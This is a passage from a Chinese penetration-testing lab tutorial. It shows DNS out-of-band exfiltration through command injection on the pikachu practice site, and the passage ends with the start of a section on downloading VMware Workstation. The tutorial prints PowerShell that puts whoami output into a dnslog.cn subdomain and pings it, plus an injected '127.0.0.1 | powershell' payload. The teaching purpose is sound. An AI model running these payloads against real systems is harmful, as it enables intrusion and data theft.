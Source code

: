    ```cmd
   powershell
   $user=whoami;
   $users=$user.replace('\', 'hebor')    # 将反斜杠替换为hebor
   $url='.e3wrng.dnslog.cn';
   $result=$users+$url;
   echo $result
   win-2pgp719hkncheboradministrator.e3wrng.dnslog.cn
   ping $result
   ```

   此时在dnslog站点上即可刷新记录，看到Windows解析成功。同理，如果目标Web站点存在漏洞但没有回显的情况下，通过这个思路已经目标站点的输入窗口，同样可以实现反弹Shell操作

4. 通过pikachu的输入窗口进行测试

   根据上述命令思路，在pikachu的输入窗口中整合后的命令

   ```cmd
   127.0.0.1 | powershell $user=whoami; $users=$user.Replace('\', 'hebor'); $url='.e3wrng.dnslog.cn'; $result=$users+$url; ping $result
   ```

通过带外查询除了能够查看用户信息，也可以使用powershell支持的一些其他命令查看特定信息，带外查询可以用来获取特定信息，以及确认目标是否具备反弹Shell的前置条件。相比较反弹Shell的实验过程，带外查询需要关注ping命令是否执行成功，ping命令不能执行成功的情况下，无法观察到任何信息，当ping命令执行成功时，攻击者又应该观察命令替换的结果

## 三、虚拟化平台

### 3.1 VMware Workstation

#### 3.1.1 下载

Workstation于2024年5月开始对个人用户免费，后续更是开放对所有用户免费，但[VMware的官网](https://www.vmware.com/)没有提供Workstation的安装包下载，下载链接指向博通（broadcom）站点

1. VMware官方访问Workstation的下载链接

   ![workstation-1](../image/Part_1/workstation-1.png)
